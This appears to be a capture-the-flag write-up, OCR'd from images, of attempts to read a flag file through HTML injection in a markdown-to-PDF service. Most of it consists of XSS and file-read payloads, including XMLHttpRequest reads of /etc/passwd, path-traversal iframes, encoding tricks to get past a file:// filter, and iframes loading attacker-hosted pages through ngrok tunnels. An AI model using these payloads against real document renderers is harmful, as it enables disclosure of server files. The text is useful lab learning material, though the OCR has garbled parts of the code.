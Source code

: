 
**Okay, so i can insert stuff in the PDF\. I need the flag\.  Or, maybe send it to me using ngrok etc???

Lets try these:**

\<script\>x=newXMLHttpRequest; x\.onload=function\(\)\{ document\.write\(this\.responseText\) \}; x\.open\("GET","file:///etc/passwd"\); x\.send\(\);\</script\>

\<img src="xasdasdasd"onerror="document\.write\('\<iframe src=file:///etc/passwd\>\</iframe\>'\)"/\>

\<script\>document\.write\('\<iframe src=file:///etc/passwd\>\</iframe\>'\);\</script\>


**It is not liking file:// so what else can I do here\.\.**

**Tried this instead:**



## <iframe src= 

[https://1dd3-216-93-199-231.ngrok.io](#https://1dd3-216-93-199-231.ngrok.io)


## /hi> 



**Working, tried to grab hi:**

ngrok                                                                                                                                 \(Ctrl\+C to quit\)

Session Status                online                                                                                                                  
Account                       crypticsilenc3 \(Plan: Free\)                                                                                             
Version                       3\.0\.3                                                                                                                   
Region                        United States \(us\)                                                                                                      
Latency                       85\.924097ms                                                                                                             
Web Interface                 [http://127.0.0.1:4040](#http://127.0.0.1:4040)

Forwarding                    [https://1dd3-216-93-199-231.ngrok.io](#https://1dd3-216-93-199-231.ngrok.io)
\-\> [http://localhost:12344](#http://localhost:12344)


Connections                   ttl     opn     rt1     rt5     p50     p90                                                                             
1       0       0\.00    0\.00    0\.01    0\.01                                                                            

HTTP Requests                                                                                                                                         
\-\-\-\-\-\-\-\-\-\-\-\-\-                                                                                                                                         

GET /hi                        404 File not found                                                                                                     


**So, lets try including the file a different way locally, with javascript instead??
**
\<script\>x=new XMLHttpRequest;x\.onload=function\(\)\{document\.write\(this\.responseText\)\};x\.open\("GET","file://\.\./\.\./flag\.txt"\);x\.send\(\);\</script\>


OR:

\<script\>
function readTextFile\(file\)\{  var rawFile = new XMLHttpRequest\(\);    rawFile\.open\("GET", file, false\);    rawFile\.onreadystatechange = function \(\)    \{        if\(rawFile\.readyState === 4\)        \{            if\(rawFile\.status === 200 || rawFile\.status == 0\)            \{                var allText = rawFile\.responseText;                alert\(allText\);            \}        \}    \}    rawFile\.send\(null\);
\}
\</script\>
readTextFile\("file:%2f%2f\.\.%2fflag\.txt"\);


**Still nada\.  back to simple\.\. Lets try:**

\<iframe src="\.\./\.\./flag\.txt"\>\</iframe\>

**That returned something hopeful:**

![](./images/071711c5efcedbf64ed95f090a80e454.png)


**Jesus\.  That easy? lol\.\. Lets remove one set of \.\./ and see****what this gets:**
\<iframe src="\.\./flag\.txt"\>\</iframe\>

\<iframe src="flag\.txt"\>\</iframe\>

**Same\. Need the file:// which blocks it\.\.
Tried uppercase for fILe yesterday, tried %2f%2f for the slashes, but haven't tried 
**\<iframe src=fILe%3A%2F%2F\.\./\.\./flag\.txt\>\</iframe\>**

No luck, empty 404 again\.\. This is different, maybe I just need some other test files with this\.\. Tried a known pdf
**\<iframe src="fILe%3A%2F%2F"\>\</iframe\>**

Took out the quotes and urlencoded just the \.\./\.\. : Hmmm, this is different, 400 error:
**\<iframe src=%2E%2E%2F%2E%2E%2Fflag\.txt\>\</iframe\>**

Tried HTML Entity:
**\<iframe src="fILe\&colon;\&sol;\&sol;\.\./\.\./flag\.txt"\>\</iframe\>

**Error, tried:**
\<iframe src="fILe\&colon;\&sol;\&sol;\.\.\&sol;\.\.\&sol;flag\.txt"\>\</iframe\>

**Okay, lets go back to URLencoding, maybe the whole thing urlencoded, and in markdown instead:**

**Tried a MD link:**
\[pic\]\(file%3A%2F%2F%2E%2E%2F%2E%2E%2Fflag%2Etxt\)

Weird:

![](./images/be958477541cca1dc693d091dedbdca2.png)

**Strange\. the mouseover for this doesn't match the web port my webserver is on:**

![](./images/799298f41fc127e36bdb6138156a7ce4.png)


**31839 is the webserver, but this linked to ‘localhost:36399’****Not sure why?**

**Tried just a raw:**

\[link\]\(/flag\.txt\)

Still just giving a link to it\. whatever\.

**Tried something diff, can use jquery to include a file, and maybe this will execute\.  Made a hi\.html on my server and used ngrok to link it in an iframe:**

GNU nano 5\.4                                                            hi\.html                                                                     
\<html\>
\<head\>
\<script src="[https://code.jquery.com/jquery-3.6.0.min.js"></script>](#https://code.jquery.com/jquery-3.6.0.min.js"></script>)

\<script\>
$\(function\(\)\{
$\("#includedContent1"\)\.load\("/flag\.txt"\);
$\("#includedContent2"\)\.load\("flag\.txt"\);
$\("#includedContent3"\)\.load\("\.\./flag\.txt"\);
$\("#includedContent4"\)\.load\("\.\./\.\./flag\.txt"\);
$\("#includedContent5"\)\.load\("\.\./\.\./\.\./flag\.txt"\);
\}\);
\</script\>
\</head\>

\<body\>
\<div id="includedContent1"\>\</div\>
\<div id="includedContent2"\>\</div\>
\<div id="includedContent3"\>\</div\>
\<div id="includedContent4"\>\</div\>
\<div id="includedContent5"\>\</div\>
\</body\>
\</html\>


**So, lets do this w/ ngrok\.\.
**
\<iframe src="https://b0f8\-216\-93\-199\-231\.ngrok\.io/?c="\>\</iframe\>



